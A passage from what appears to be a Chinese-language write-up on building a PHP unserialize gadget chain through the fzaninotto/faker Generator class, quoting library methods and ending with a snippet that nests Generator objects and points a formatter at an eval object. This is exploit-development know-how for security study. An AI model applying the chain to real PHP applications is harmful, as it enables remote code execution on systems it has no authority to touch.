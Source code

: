 这里传入的`$name`是不可控的，为传入的`dispatch`，这样第一次的

```php
$res = call_user_func_array(array($this->generator, $name), $arguments);
```

意味着暂时也无法完全控制，但是需要找一个可以类，可以控制其返回值，从而让`$res`可控，进而while处的

```php
call_user_func($this->validator, $res)
```

**需要特别注意**的一点是，这里的`$arguments`通过之前的`__call`方法传入的时候，变成了一个数组，并且只能控制第一个索引的数组，所以有一定的限制。（一开始绕了好久

### Generator

`fzaninotto/faker/src/Faker/Generator.php:277`

```php
public function __call($method, $attributes)
{
    return $this->format($method, $attributes);
}
```

`format()`

```php
public function format($formatter, $arguments = array())
{
    return call_user_func_array($this->getFormatter($formatter), $arguments);
}
```

`getFormatter()`

```php
public function getFormatter($formatter)
{
    if (isset($this->formatters[$formatter])) {
        return $this->formatters[$formatter];
    }
    ....
```

可以看到`__call`处的`$method`不可控，这样就不能控制`format()`中的`$formatter`

庆幸的是在`getFormatter()`中`$this->formatters`是可以通过反序列化控制的，这样，就可以传入一个我们想要的数组，然后触发对应类的函数。

然后由于`$arguments`的原因，现在的pop链还不算特别好。这里选择了在`Generator`类中再次调用`Generator`类，嵌套调用。（真的给跪了。。。

```php
$g2->formatters = array('kingkk' => $evalobj);
$g1->formatters = array(
    "dispatch" => array(
        $g2, 
        "getFormatter",
    )
);
```

